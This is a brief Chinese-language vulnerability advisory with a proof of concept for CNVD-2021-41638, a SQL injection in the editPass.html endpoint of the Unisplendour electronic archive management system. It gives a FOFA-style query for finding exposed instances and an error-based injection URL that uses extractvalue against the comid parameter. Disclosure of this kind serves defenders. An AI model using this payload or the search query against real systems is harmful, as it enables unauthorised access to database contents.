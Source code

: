 # 紫光档案管理系统 editPass.html SQL注入漏洞 CNVD-2021-41638

# 紫光档案管理系统 editPass.html SQL注入漏洞 CNVD-2021-41638

## 漏洞描述

紫光软件系统有限公司（以下简称“紫光软件”）是中国领先的行业解决方案和IT服务提供商。 紫光电子档案管理系统存在SQL注入漏洞。攻击者可利用漏洞获取数据库敏感信息。

## 漏洞影响

```
紫光电子档案管理系统
```

## 网络测绘

```
app="紫光档案管理系统"
```

## 漏洞复现

登录页面

![image-20220525145742607](/images/202205251457947.png)

验证POC

```
/login/Login/editPass.html?comid=extractvalue(1,concat(char(126),md5(1)))
```

![](/images/202205251458637.png)


